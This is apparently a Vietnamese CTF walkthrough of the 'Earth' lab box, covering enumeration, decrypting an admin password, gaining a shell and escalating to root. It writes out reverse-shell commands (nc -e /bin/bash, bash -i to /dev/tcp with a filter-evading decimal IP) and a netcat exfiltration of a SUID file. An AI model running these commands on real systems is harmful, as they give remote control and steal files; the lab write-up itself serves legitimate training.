 1.	Netdiscover để tìm ip
 
2.	Nmap để scan cổng
 
3.	Brute force dung dirb
 
Tìm ra 1 đường link nhưng không thể truy cập
 
4.	Lấy quyền truy cập vào trang web mục tiêu bằng HTTPS thay vì HTTP
 
5.	Đã tìm thấy tên chung và tên DNS cho ứng dụng web đang chạy trên máy cá nhân
 
6.	Thêm host name với địa chỉ ip tương ứng
 
7.	Truy cạp vào earth.local
 
8.	Dirb lại scan earth.local
 
 	Tìm thấy admin path
9.	Vào phần admin
 
 
10.	Truy cập vào terratest.earth.local
 
11.	Dùng gobuster scan terratest.earth.local
 
Tìm thấy fole robot.txt
 
	Đọc file /testingnotes.txt
	 
Đọc file testdata
 
12.	Decrypt lời nhắn trên dung cyberchef 
“message” ở earth.local url
 
Và dung testdata như key
 
 
13.	Dùng output trên như password và ta đã truy cập được admin
 
14.	Chuẩn bị 1 cái listener
 
Chạy lệnh nc -e /bin/bash <your_ip_address> 4444 
 
 
Remote đã bị cắt
15.	Dùng reverseshell để vượt qua cái này
Chuyển IP của mình thành nhị phân
 
Chạy lệnh bash -i >& /dev/tcp/3232235876/4444 0>&1
 
 
16.	Vào mục var
 
 
Tìm thấy earth_web 
17.	Chuyển tới earth_web
 
Tìm thấy user_flag.txt
 
18.	Kiểm tra các file SUIDs để xem có cách nào có thể leo thang không
 
Tìm thấy 1 file tên là reset_root
19.	Pull file này về máy mình để crack
Chuẩn bị 1 netcat listener
 
Chạy lệnh này trên máy nạn nhân
nc -w 3 <your_ip > <your_assign_port> < reset_root
 
 
20.	Strings file reset_root
 
21.	Lấy root shell
 
Dung lệnh ltrace
 
Xem thử các file trên có tồn tại không
 

 

Reset password thành công
   
Tìm thấy root
 
Tìm ra root_flag
 
